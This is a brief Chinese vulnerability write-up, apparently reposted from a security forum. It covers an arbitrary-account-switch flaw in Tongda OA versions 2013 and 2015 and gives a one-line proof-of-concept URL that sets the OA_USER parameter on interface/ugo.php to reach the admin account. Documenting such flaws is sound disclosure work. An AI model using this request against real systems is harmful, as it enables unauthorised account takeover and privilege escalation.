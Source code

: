 # 通达oa 任意账号跳转

> 原文：[https://www.zhihuifly.com/t/topic/3335](https://www.zhihuifly.com/t/topic/3335)

# 通达oa 任意账号跳转

## 一、漏洞简介

需要登录

## 二、漏洞影响

2013、2015版本

## 三、复现过程

POC:

```
http://0-sec.org/interface/ugo.php?OA_USER=admin 
```

通过控制OA_USER参数进行任意⽤户的跳转，⽐如说你现在是个普通权限的⽤户，使用这个⻚面即可跳转到admin用户下面。